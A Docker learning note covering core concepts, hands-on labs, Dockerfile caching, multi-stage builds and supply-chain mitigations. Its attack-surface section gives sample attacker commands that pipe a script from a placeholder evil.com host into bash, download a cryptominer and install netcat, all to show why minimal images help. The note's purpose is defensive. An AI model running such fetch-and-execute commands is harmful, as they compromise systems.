







---
tags:
  - course
  - devops
  - learning
  - machine-learning
  - open-source
  - software-engineering
aliases:
  - Knowledge/Tech-Science/Docker
---
> [!TIP] **Mental model:** Docker packages the *environment (config and dependencies)* with the code, so "run" becomes a predictable, repeatable operation irrespective of the device and OS.

## Mini command cheat sheet (the 20% you'll use 80% of the time)
- [Official CLI Cheat Sheet](https://docs.docker.com/get-started/docker_cheatsheet.pdf) & [Official Building Best Practices](https://docs.docker.com/build/building/best-practices/#volume)

```bash
# Images
# List local images
docker images
# Pull an image from a Docker Hub
docker pull nginx:1.23

# Containers
# To list currently running containers
docker ps
# List all docker containers (running and stopped)
docker ps -a
# Run a container in the background (-d) from an image:tag (nginx:1.23) with custom name (mynginx) and publish a container's port(s) to the host (<host_port>:<container_port>).
docker run -d --name mynginx -p 9000:80 nginx:1.23
# Fetch and follow the logs of a container
docker logs -f mynginx
# Start or stop an existing container: (<container_name> or <container-id>)
docker stop mynginx
docker start mynginx

# Build your own image (myapp:1.0) from Dockerfile
# -t myapp:1.0 assigns the name myapp with tag 1.0 to the resulting image
# Without -t, Docker still builds the image but gives it no name — you'd have to reference it by its SHA hash (e.g., sha256:a3d2f...), which is impractical
docker build -t myapp:1.0 .
docker run -d -p 3000:3000 myapp:1.0

# Tags
# Tag an existing image with a new name (both point to the same SHA digest)
docker tag myapp:1.0 myapp:latest
# Build with multiple tags at once
docker build -t myapp:1.0 -t myapp:latest .

# Debugging / Inspection
# Override CMD — drop into a shell instead of starting the app (replaces CMD entirely)
docker run -it myapp:1.0 sh
# Spawn a shell inside an already-running container (app keeps running)
docker exec -it mynginx sh
# Check what's inside the image filesystem
docker run --rm myapp:1.0 ls -la /app/

# Cleanup
# Remove a stopped container
docker rm mynginx
# Delete an image (untags then deletes layers if no other tags reference them)
docker rmi myapp:1.0
```

## Docker (First Principles + Hands-on)

This note is a cohesive "why → how → do it" walkthrough, based on the crash course I watched ([YouTube video](https://www.youtube.com/watch?v=pg19Z8LL06w)), and the hands-on custom docker image project ([`prasanth-ntu/docker-demo`](https://github.com/prasanth-ntu/docker-demo)).

## Why Docker exists (What problem does it solve)?

Software doesn't "run" from source code alone. It runs from **code + runtime + OS libraries + configuration + dependent services** (Postgres/Redis/etc).
"Works on my machine" happens when those hidden assumptions differ across laptops and servers (versions, configs, OS differences).

Docker's core move is simple:

> [!TIP] Instead of shipping *code + instructions*, ship *code + environment*.

**Before containers:** deployment relied on textual guides from Dev → Ops.
> [!WARNING]
> - ❌ Human errors can happen
> - ❌ Back and forth communication

**After containers:** everything is packaged inside the Docker artifact (app source code + dependencies + configuration).
> [!SUMMARY]
>- ✅ No configurations needed on the server
>- ✅ Install the Docker runtime on the server (one-time effort)
>- ✅ Run Docker command to fetch and run the docker artifacts

## What Docker really virtualizes (VMs vs containers)

First principles: an OS has two "layers":

- **Kernel**: talks to hardware (CPU, memory, disk).
- **User space**: programs + libraries that run on top of the kernel.

Docker vs VMs differs mainly in **what gets virtualized**: the whole OS, or just the application user space.
### Virtual Machines (VMs)
- Virtualize **kernel + user space** (a whole OS)
- Heavier (GBs), slower start (often minutes)
- Strong isolation; can run different OS kernels (Linux VM on Windows host, etc.)
### Docker containers
- Virtualize **user space** (process + filesystem + libs)
- Reuse the **host kernel**
- Lighter (MBs), faster start (often seconds or less)

> [!NOTE] On macOS/Windows, Docker Desktop runs a lightweight Linux VM under the hood so Linux containers can still run — that's why it "just works" locally.

> [!NOTE] **Analogy:** If `venv` organizes the **bookshelf** (Python libraries), Docker builds the **entire apartment** (OS tools, system libraries, and settings).

![[docker-vs-vm-virtualization-comparison.png]]
![[docker-vs-vm-virtualization-comparison-2.png]]

## The 4 core nouns: Image, Container, Registry, Repository

### 1) Image = the package
An **image** is the immutable artifact you build or download: app code + runtime + OS user-space bits + config.
### 2) Container = a running instance
A **container** is a running (or stopped) instance of an image — like "a process with a filesystem snapshot".

Analogy:
- **Image**: blueprint / recipe / "frozen meal"
- **Container**: built house / cooked dish / "hot meal"
### 3) Registry = the image warehouse
A **registry** is a service that stores images and lets you pull/push them.
- **Public registry**: Docker Hub is the default public registry most people start with.
- **Private registry**: companies store internal images in private registries (cloud provider registries, self-hosted, or private Docker Hub repos).

Registries exist because images are large and versioned, and need standardized distribution (pull/push), caching, and access control across laptops, CI, and servers.
### 4) Repository = a folder inside a registry
A **repository** is a named collection of related images (usually one app/service).

Think:
- **Registry**: the warehouse
- **Repository**: a shelf (one product line)
- **Tags**: labels on boxes (versions)

## Tags and versioning (why `latest` is usually a trap)

Images are referred to as:
`name:tag`
Examples:
- `nginx:1.23`
- `node:20-alpine`

### What `latest` actually means
`latest` is just a tag — not "the newest stable thing" by magical guarantee.

> [!TIP] **Best practice:** pin explicit tags (or digests) in production and CI.

## Key concepts at a glance (diagrams)

### Big picture view of Docker in Software Development Cycle

![[Docker in Software Development Lifecycle.png]]
### Image → Container (build → run)



### Registry → Repository → Tag



### Build → Push → Pull → Run (distribution loop)



## Docker Architecture: End-to-End
<iframe src="/static/pages/Docker%20Architecture.html" width="100%" height="600" frameborder="0" allowfullscreen></iframe>
<a href="/static/pages/Docker%20Architecture.html" target="_blank" rel="noopener noreferrer"><b>Open in new tab</b></a> (*Note: Best viewed in desktop or landscape view*)

---
## Hands-on Lab 1: Run a container (nginx) and *actually* reach it

This mirrors the flow from the crash course: pull → run → port-bind → inspect logs.

### Step 1 — Pull an image (optional, `docker run` can auto-pull)

```bash
docker pull nginx:1.23
docker images
```
This downloads the image locally. At this point, nothing is running yet — you've only stored the artifact.

### Step 2 — Run a container

```bash
docker run nginx:1.23
```

You'll see logs because your terminal is "attached" to the container process.

### Step 3 — Detached mode (get your terminal back)

```bash
docker run -d nginx:1.23
docker ps
```

### Step 4 — Port binding (make it reachable from your laptop)

Core idea:

> [!TIP] Containers live behind Docker's networking boundary. Port-binding is you punching a controlled hole from host → container.



Bind host port `9000` to container port `80`:

```bash
docker run -d -p 9000:80 nginx:1.23
docker ps
```

Now open: `http://localhost:9000`
Why this works?
- `localhost` is your host machine. The container's port `80` is private unless you publish/bind it to a host port.

### Step 5 — Logs, stop/start, and the "where did my container go?" moment

```bash
docker logs <container_id_or_name>
docker stop <container_id_or_name>
docker ps
docker ps -a
```

- `docker ps` shows **running** containers.
- `docker ps -a` shows **all** containers (including stopped ones).

Restart an existing container (no new container is created):

```bash
docker start <container_id_or_name>
```

### Step 6 — Name containers (humans > IDs)

```bash
docker run -d --name web-app -p 9000:80 nginx:1.23
docker logs web-app
```

---
## Hands-on Lab 2: Build our own image (my `docker-demo` workflow)

My demo repo is the canonical "smallest useful Dockerfile" exercise: a Node app with `src/server.js` and `package.json`, packaged into an image and run as a container ([repo](https://github.com/prasanth-ntu/docker-demo)).

### Think like Docker: what must be true for this app to run?

Requirements:
- **Runtime exists**: `node` is available
- **Dependencies are installed**: `npm install` happened during image build
- **Files are present**: `package.json` and `src/` are copied into the image
- **Working directory is consistent**: pick a stable path (commonly `/app`)

### Minimal Dockerfile (explained by "mapping local steps")

If your local steps are:

```bash
npm install
node src/server.js
```

Then your Dockerfile should encode the same:

```dockerfile
FROM node:20-alpine

WORKDIR /app

COPY package.json /app/
COPY src /app/

RUN npm install

CMD ["node", "server.js"]
```
Intuition:
- `FROM` selects a base image that already has the runtime installed.
- `WORKDIR` makes paths stable and predictable.
- `RUN` executes at build-time (creates layers).
- `CMD` is the default run-time command when the container starts.

#### Build-time (`docker build`) vs Run-time (`docker run`)

Everything in the Dockerfile except `CMD` executes during **build** — setting up the environment, copying files, installing dependencies. The result is an image (a frozen snapshot).

`CMD` is **not** executed during the build. It's stored as metadata in the image — an instruction that says "when someone runs this image, start this process." It only executes when you `docker run`.

This is also why you can override `CMD` at run-time:
```bash
# Uses the default CMD (node server.js)
docker run docker-demo-app:1.0

# Overrides CMD — drops you into a shell instead
docker run -it docker-demo-app:1.0 sh
```
The image is the same in both cases — you're just choosing a different process to start.

#### How `COPY` destination paths resolve (with `WORKDIR /app`)

Absolute paths ignore `WORKDIR`; relative paths (like `.`) resolve against it:

| COPY destination | Resolves to | Why |
|---|---|---|
| `/app/` | `/app/` | Absolute path — WORKDIR irrelevant |
| `.` | `/app/` | Relative — resolves against WORKDIR |
| `./src/` | `/app/src/` | Relative — resolves against WORKDIR |
| `/data/` | `/data/` | Absolute — WORKDIR irrelevant |

> [!TIP] Using `.` (relative) is cleaner — it avoids repeating `/app/` and lets `WORKDIR` be the single source of truth for the path.



### Build the image

From the directory containing the Dockerfile:

```bash
docker build -t docker-demo-app:1.0 .
docker images
```

### Run it (and bind ports)

If the Node server listens on `3000` inside the container, bind it to `3000` on your host:

```bash
docker run -d --name docker-demo -p 3000:3000 docker-demo-app:1.0
docker ps
docker logs docker-demo
```

Open: http://localhost:3000

> [!TIP] **Shortcut:** `docker run` will auto-pull from Docker Hub if the image isn't local. For your own image, it's local unless you push to a registry.

### Stop it, remove it and delete it

```bash
# Stop an existing container
docker stop docker-demo-rerun

# Remove a stopped container
docker rm docker-demo-rerun

# Delete an image
docker rmi docker-demo-app:1.0
```

## Dockerfile intuition: layers and caching

Each `FROM`, `COPY`, `RUN` creates an image **layer**.

> [!TIP] Docker caches layers. If a layer doesn't change, it reuses it.

Practical implication:
- Copy `package.json` first, run `npm install`, then copy the rest — so dependency install is cached unless dependencies change.

### Cache behavior in different scenarios

The Dockerfile from Lab 2 works, but its layer order isn't cache-friendly (`COPY src` before `RUN npm install` means any source change also re-runs `npm install`). Here's the **optimized** version — `npm install` is moved before `COPY src` so it only re-runs when `package.json` changes:

```dockerfile
FROM node:20-alpine       # Layer 1
WORKDIR /app              # Layer 2
COPY package.json /app/   # Layer 3
RUN npm install           # Layer 4
COPY src /app/            # Layer 5
CMD ["node", "server.js"] # Layer 6
```

**Scenario 1: Only `src/` files change**
- Layers 1–4 (FROM → WORKDIR → COPY package.json → npm install) are **cached** ✅
- Only rebuilds from Layer 5 (COPY src/) onwards
- `npm install` is **not re-run**
- **Result**: Fast rebuild (seconds)

**Scenario 2: `package.json` changes**
- Layers 1–2 (FROM → WORKDIR) are **cached** ✅
- Rebuilds from Layer 3 (COPY package.json) onwards
- Must re-run `npm install` (Layer 4 cache invalidated)
- **Result**: Slower rebuild (must reinstall dependencies)

**Scenario 3: Nothing changes**
- All layers cached ✅
- **Result**: Near-instant rebuild

> [!TIP] **The optimization pattern**: Place less frequently changing files (package.json) before expensive operations (npm install) before frequently changing files (src/). This ensures your expensive operations are cached unless their inputs actually change.



## Volumes and Bind Mounts

### Volumes (data that must survive containers)

Example mental model:
- Container filesystem: throwaway
- Volume: durable attachment you can remount to new containers

### Bind Mounts (development workflow)

Rebuilding the image on every code change during development is slow. **Bind mounts** solve this by mapping a host directory directly into the container, bypassing the baked-in `COPY`.

```bash
# Mount your host's src/ into the container's /app/src
docker run -p 3000:3000 -v $(pwd)/src:/app/src docker-demo-app:1.0
```

Now editing `server.js` on your machine is instantly visible inside the container — no rebuild needed. Pair with a file watcher (e.g., `nodemon`) for hot reload:

```bash
# Inside the container, instead of `node server.js`:
npx nodemon server.js
```

### When to rebuild vs. when to mount

| Scenario | Approach |
|---|---|
| **Code changes during dev** | Bind mount + hot reload. No rebuild needed. |
| **Dependency change** (new npm package) | Rebuild needed — `node_modules` lives in the image. |
| **Production / deployment** | Always build a fresh image with everything baked in. No mounts. |

> [!TIP] The image is your **snapshot for deployment**. Bind mounts are your **shortcut for development**. You wouldn't ship a container that depends on mounting host files — that defeats the purpose of containerization.

## Compose (why it exists)

`docker run ...` is great for 1 container. Real apps are usually **multiple containers**:

- app + database + cache + queue + …

[[Docker Compose]] is a "runbook you can execute":
- defines containers, ports, env vars, volumes, networks
- lets you bring a whole stack up/down predictably

> [!TIP] Think of Compose as "a declarative script for `docker run` commands" — the **waiter** coordinating multiple dishes (services), ports, and volumes on a single tray.

## Where Docker fits in the bigger workflow (dev → CI → deploy)

The "big picture" loop:

1. **Dev**: run dependencies (DB/Redis/etc) as containers; keep your laptop clean.
2. **Build/CI**: build a versioned image from your app (`docker build ...`).
3. **Registry**: push to a private repo (`docker push ...`).
4. **Deploy**: servers pull the exact image version and run it (`docker run ...` or an orchestrator).



> [!TIP] Net effect: you stop re-implementing "installation + configuration" as a fragile checklist on every machine; the image becomes the executable contract.

## Best practices (high signal)

- **Pin versions**: prefer `postgres:16` over `postgres:latest`.
- **Name containers**: it makes logs and scripts sane.
- **Prefer immutable builds**: treat containers as disposable — never `docker exec` in to manually install packages or edit config files (those changes are lost on restart and invisible to others). Instead, configure via env vars (`-e`), volumes/bind mounts, or rebuild the image. You should be able to `docker rm` and `docker run` a fresh container with identical behavior.
  
  All configuration should come from _outside_ the container at runtime:
	- - **Environment variables** (`docker run -e DB_HOST=...`) for config values
	- **Volumes/bind mounts** for data that needs to persist or vary per environment
	- **The Dockerfile itself** for any packages or dependencies (rebuild the image)
- **Don't store secrets in images**: inject via env/secret managers.
- **Clean up**: stopped containers and unused images accumulate.

## Next Steps
[[Docker Compose]]
[[Kubernetes (K8s)]]

## Appendix:

### Self-check Q&A (Socratic questioning)

- **What does it mean for software to "run"?**
	- Code + runtime + OS libs + config + dependent services.
- **Why does "works on my machine" happen?**
	- Environment drift: different versions, configs, OS behavior.
- **If an image is immutable, what is "running"?**
	- A container is the running (or stopped) instance of an image.
- **Why do registries exist?**
	- Distribution + caching + access control for large, versioned artifacts.
- **Why can't I access a container port directly via `localhost`?**
	- Container networking is isolated; you must publish/bind ports from host → container.
- **Why do we use `CMD` instead of `RUN node ...`?**
	- `RUN` happens at build-time; `CMD` is the default runtime command.
- **If containers are disposable, where does persistent data go?**
	- Volumes (or external managed services).

### DockerFile (Python Application Template)

This template uses a multi-stage build to separate build dependencies from the final minimal runtime image.

```bash
# Stage 1: Builder (disposable workspace)
FROM python:3.12-slim AS builder

WORKDIR /usr/src/app

# Create a virtual environment and activate it via PATH
RUN python -m venv /opt/venv
ENV PATH="/opt/venv/bin:$PATH"

# Copy and install dependencies into the venv
COPY requirements.txt ./
RUN pip install --no-cache-dir -r requirements.txt

# Copy source code
COPY src ./src

# Stage 2: Production image
FROM python:3.12-slim

WORKDIR /usr/src/app

# Copy the venv (all installed packages) and application code from the builder stage
COPY --from=builder /opt/venv /opt/venv
COPY --from=builder /usr/src/app /usr/src/app

# Activate the venv via PATH
ENV PATH="/opt/venv/bin:$PATH"

# Create a non-root user and switch to it for security
RUN useradd appuser
USER appuser

# Expose (only documents) the port your app runs on
EXPOSE 8080

# Command to run the application (replace app.py with your main file) in exec form (instead of shell form)
CMD ["python", "app.py"]
```

#### Stage 1: Builder

> [!TIP] The builder stage is a temporary intermediate that Docker discards after the build completes. 

| Line | Purpose |
|------|---------|
| `FROM python:3.12-slim AS builder` | Base image + names this stage "builder" so we can reference it later |
| `WORKDIR /usr/src/app` | Sets working directory (creates it if missing) |
| `RUN python -m venv /opt/venv` | Creates a virtual environment at a known, fixed path |
| `ENV PATH="/opt/venv/bin:$PATH"` | Ensures `pip install` targets the venv (not system site-packages) |
| `COPY requirements.txt ./` | Copy requirements from host → container |
| `RUN pip install --no-cache-dir -r requirements.txt` | Install deps into the venv without pip's cache (smaller layer) |
| `COPY src ./src` | Copy source code |

#### Stage 2: Production
| Line | Purpose |
|------|---------|
| `FROM python:3.12-slim` | Starts a brand new image — Stage 1 is discarded |
| `WORKDIR /usr/src/app` | Same directory (repeated because this is a fresh image) |
| `COPY --from=builder /opt/venv /opt/venv` | Copies the entire venv (all installed packages) from the builder stage |
| `COPY --from=builder /usr/src/app /usr/src/app` | Copies application source code from the builder stage |
| `ENV PATH="/opt/venv/bin:$PATH"` | Activates the venv so `python` resolves from it |
| `RUN useradd appuser` | Creates non-root user (security best practice) |
| `USER appuser` | Switches to that user for all subsequent commands |
| `EXPOSE 8080` | Documents which port the app uses (doesn't actually publish it) |
| `CMD ["python", "app.py"]` | Default command when container starts |

#### Understanding `COPY --from=builder`

The `--from=builder` flag means "copy from the stage named 'builder'" rather than from the host machine. This copies the venv (containing all installed packages) and source code, but excludes any build artifacts, pip cache, or intermediate files that existed in Stage 1.

#### Why Use a Venv in Docker?

Without a venv, `pip install` puts packages into system `site-packages` (e.g. `/usr/local/lib/python3.12/site-packages/`). This is **outside** `/usr/src/app`, so a single `COPY --from=builder /usr/src/app /usr/src/app` would miss all your dependencies, causing `ModuleNotFoundError` at runtime.

A venv at `/opt/venv` bundles everything — packages, CLI scripts, and the Python binary link — into one self-contained directory that's easy to copy in a single `COPY` instruction.

#### Why Multi-Stage Builds?

**Stage 1** is a "dirty" build environment where you install build tools, download packages (which may leave cache files), and generate intermediate artifacts.

**Stage 2** starts completely fresh and cherry-picks only what's needed to run the app.

> [!TIP] The key insight is the direction:
> - It's **not** "start with everything, remove unwanted stuff"
> - It's "start with nothing, copy only what's needed"

This matters because you might not even know what junk got created during the build. By starting fresh, you automatically exclude:
- pip/npm caches
- Compiler toolchains (gcc, etc.)
- Source files used only for compilation
- Temporary build artifacts
- Dev dependencies not needed at runtime

**Result**: Smaller image size + smaller attack surface (fewer tools for attackers to exploit if the container is compromised).

#### Attack Surface Explained

If an attacker compromises your running container (e.g., through an app vulnerability like SQL injection or RCE), they can only use tools already inside the container.

With a bloated image containing build tools:
```bash
# Attacker can download more malware
curl https://evil.com/malware.sh | bash
wget https://evil.com/cryptominer

# Compile custom exploits
gcc exploit.c -o exploit

# Install additional tools
apt-get install nmap netcat
```

With a minimal production image:
```bash
# None of these exist
curl: command not found
wget: command not found
gcc: command not found
apt-get: command not found
```

> [!DANGER] The attacker is "trapped" with limited options. This is called **defense in depth** — even if one layer (the app) is breached, the next layer (minimal container) limits damage.

Two principles work together to reduce the attack surface:

1. **Minimal features** — Strip out build tools, package managers, and shells where possible. Less software means fewer vulnerabilities to exploit and fewer tools for an attacker to use post-compromise.
2. **Limited permissions** — Run as a non-root user, use read-only filesystems, and drop Linux capabilities. Even if an attacker gets in, they can't do much.

The goal is to assume a breach *will* happen and make the container as useless as possible to the attacker when it does.

> [!DANGER] These layers stack — each one independently limits what an attacker can do, and together they compound. Breaking through one layer doesn't give you much because the next layer is waiting with its own restrictions. It's like a building with multiple locked doors — getting past one doesn't mean you're past all of them.

#### Can Base Images Be Compromised?

Yes. This is called a **supply chain attack**. Real examples:

| Attack Vector | Description |
|---------------|-------------|
| Typosquatting | Malicious image named `pytohn` instead of `python` |
| Compromised maintainer | Attacker gains access to maintainer's Docker Hub account |
| Dependency poisoning | Malicious package injected into requirements (not the image itself, but installed during build) |
| Registry compromise | The registry itself gets hacked |
#### Mitigations for Supply Chain Attacks

1. **Use official images** — Look for the "Docker Official Image" badge on Docker Hub
2. **Pin image digests** (not just tags):
   ```dockerfile
   # Tag can be overwritten
   FROM python:3.12-slim

   # Digest is immutable (SHA256 hash of exact image)
   FROM python:3.12-slim@sha256:abc123...
   ```
   Tags are just labels — a maintainer can update what a tag points to at any time (e.g., `python:3.12-slim` could point to Image A today and Image B tomorrow). A compromised maintainer could push a malicious image under the same tag. Digests are content hashes — the SHA256 is computed from the actual image contents. If even a single byte changes, the hash is completely different. Nobody can overwrite it because the hash *is* the content. It's like the difference between "download the file called `report.pdf`" (someone could swap it out) vs "download the file with checksum `sha256:abc123...`" (you'll always get the exact same file, or the verification fails).
3. **Scan images** — Tools like Trivy, Snyk, or Docker Scout check for known vulnerabilities
4. **Use private/verified registries** — Companies often mirror trusted images to internal registries
5. **Minimal base images** — Alpine or distroless images have fewer packages = fewer potential vulnerabilities